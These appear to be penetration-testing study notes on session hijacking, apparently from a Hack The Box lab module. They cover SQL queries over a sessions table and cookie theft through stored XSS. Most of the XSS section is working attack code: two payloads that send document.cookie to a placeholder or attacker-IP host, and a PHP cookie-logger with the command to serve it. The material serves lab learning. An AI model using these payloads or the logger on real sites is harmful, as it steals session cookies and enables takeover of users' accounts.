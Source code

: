 ```sql
select * from all_sessions;
select * from all_sessions where id=3;

```

![image](https://academy.hackthebox.com/storage/modules/153/15.png)




# Through XSS
=MUST MATCH THESE CONDITIONS=
- found a vulnerable input ( it is best to use payloads with event handlers like `onload` or `onerror` since they fire up automatically and also prove the highest impact on stored XSS cases. Of course, if they're blocked, you'll have to use something else like `onmouseover`.)
- _HTTPOnly_ is off

> [!NOTE]
> 
> **Note**: If you're doing testing in the real world, try using something like [XSSHunter](https://xsshunter.com/), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com/). A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.

A sample HTTPS>HTTPS payload example can be found below:
```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```
## With PHP
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

```shell-session
alakin2504@htb[/htb]$ php -S <VPN/TUN Adapter IP>:8000
[Mon Mar  7 10:54:04 2022] PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started
```

Payload:

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```
